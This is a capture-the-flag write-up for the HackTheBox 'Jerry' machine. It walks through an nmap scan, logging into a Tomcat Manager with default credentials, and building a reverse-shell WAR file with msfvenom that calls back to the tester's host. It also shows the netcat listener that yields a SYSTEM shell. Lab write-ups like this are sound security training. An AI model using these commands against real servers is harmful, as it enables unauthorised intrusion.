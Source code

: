 # Hackthebox - Jerry

- Windows

![Devel](../.res/HTB-jerry.png)

- [Box on HTB](https://app.hackthebox.com/machines/Jerry)

## Nmap

```bash
┌─[gabrielle@parrot]─[~/Documents/toolbox]
└──╼ $nmap -Pn -T4 -sC -sV -p- --min-rate=1000 10.10.10.95
Starting Nmap 7.92 ( https://nmap.org ) at 2023-03-25 20:11 EDT
Nmap scan report for 10.10.10.95
Host is up (0.038s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
|_http-open-proxy: Proxy might be redirecting requests
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 93.60 seconds
```

We only have one port open

## Port 8080

![tomcat](../.res/2023-03-25-20-17-28.png)

- In the meantime we can try to log in on Manager. admin password or admin:admin does not work.
- We get redirect here so I tried tomcat with a password of s3cret and it works

![Access denied](../.res/2023-03-25-20-25-19.png)  

- We can now try to upload things here 

![Upload](../.res/2023-03-25-20-26-17.png)

- Let's make a malicious war file with msfvenom and upload it `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=1234 -f war > shell.war`
- `rlwrap nc -lvp 1234` we set up a listener
- We upload it and deploy it. We can see it here  

![](../.res/2023-03-25-20-31-39.png)

- We get a shell as authority system right away

![](../.res/2023-03-25-20-35-52.png)

- If we go to the Administrator's Desktop we have the user and the root flag in the same file  

![2 flags](../.res/2023-03-25-20-36-48.png)

- And we are done. Shortest writeup ever I think :laughing: :laughing: